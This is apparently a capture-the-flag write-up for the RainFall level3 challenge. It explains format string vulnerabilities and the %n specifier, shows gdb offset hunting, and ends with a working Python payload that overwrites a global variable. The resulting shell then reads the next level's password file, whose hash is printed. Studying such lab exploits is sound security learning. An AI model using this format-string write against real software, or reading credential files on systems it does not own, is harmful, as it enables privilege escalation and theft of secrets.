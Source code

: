

"fuzzing or fuzz testing = testing technique that involves providing invalid, unexpected, or random data as inputs to a computer program = The program then crashes"

"one key thing in hacking is about giving non intended inputs to programs and observe its behavior"

retrieve five parameters from the stack and display them as 8-digit padded hexa

level3@RainFall:~$ ./level3

%08x %08x %08x %08x %08x

00000200 b7fd1ac0 b7ff37d0 78383025 38302520

Uncontrolled format string

"One may also write arbitrary data to arbitrary locations using the %n format token, which commands printf() and similar functions to write the number of bytes formatted to an address stored on the stack."

wiki

%n is a special format specifier which instead of printing something causes printf() to load the variable pointed by the corresponding argument with a value equal to the number of characters that have been printed by printf()  before the occurrence of %n
https://www.geeksforgeeks.org/g-fact-31/


#include<stdio.h>

int main()

{

    int c;
    printf("123456789A%n     \n", &c);
    printf("%d", c);
    return 0;
    
    // output
    // 123456789A     
    // 10
    
}

* Geeks4Geeks

"the ‘%n’ parameter, which writes the number of bytes already printed, into a variable of our choice. The address of the variable is given to the format function by placing an integer pointer as parameter onto the stack."
https://cs155.stanford.edu/papers/formatstring-1.2.pdf



```
(gdb) run <<< "AAAA %p %p %p %p %p"

finding the offset of our input string in the stack
 
esp after fgets

(gdb) f
0xbffff4e0:	0xbffff4f0	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff4f0:	0x41414141	0x20702520	0x25207025	0x70252070

level3@RainFall:~$ ./level3
AAAA %p %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520
```

41414141(the 4th hex value), 41 represent A so 4 is the offset of our input string in the stack.

from [the stanford article](https://cs155.stanford.edu/papers/formatstring-1.2.pdf):
```
a way to directly address a stack parameter from within the format string[...]
The direct parameter access is controlled by the ‘$’ qualifier.
printf ("%6$d\n", 6, 5, 4, 3, 2, 1);
Prints ‘1’, because the ‘6$’ explicitly addresses the 6th parameter on the
stack. 
```
so in our case
```
level3@RainFall:~$ ./level3
AAAA %p %4$x
AAAA 0x200 41414141
```

```
level3@RainFall:~$ (python -c 'print "\x08\x04\x98\x8c"[::-1] + "A" * 60 + "%4$n"' ; cat ) | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
pwd
/home/user/level3
whoami
level4
cat //home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
